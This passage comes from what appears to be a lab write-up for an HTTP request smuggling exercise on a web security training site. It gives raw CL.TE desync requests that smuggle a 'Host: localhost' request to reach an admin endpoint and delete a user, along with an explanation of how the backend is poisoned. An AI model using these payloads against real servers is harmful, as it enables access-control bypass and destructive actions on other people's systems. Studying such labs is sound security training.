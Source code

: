 And now we send our attack, norm reqs and in the response to the norm req we actually get the html returned from `/admin` endpoint. It happens because `/admin` endpoint checks the `Host` header and if it is equal to localhost then it returns html

Part of the response includes:
```bash
<a href="/admin/delete?username=carlos">Delete</a>
```

So we change our attack req again:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
0\r\n
\r\n
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
\r\n
x=
```

Final explanation:
After the attack req is sent, the backend server is poisoned with:
```bash
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
\r\n
x=
```
But the response is not given because it expects 1 more byte to arrive (Content-Length: 3) so when we send norm req it actually takes the first byte from the norm req and finishes processing our poisoned req (`GET /admin/delete?username=carlos`) and sends the response to the one who made that norm req (in this case to us because we made that norm req)
The remainder of the norm req is invalid req because we don't see the response of it. It fails in the background.
```bash
OST / HTTP/1.1
Host: 0a7a00c80443862881fbb12700510041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
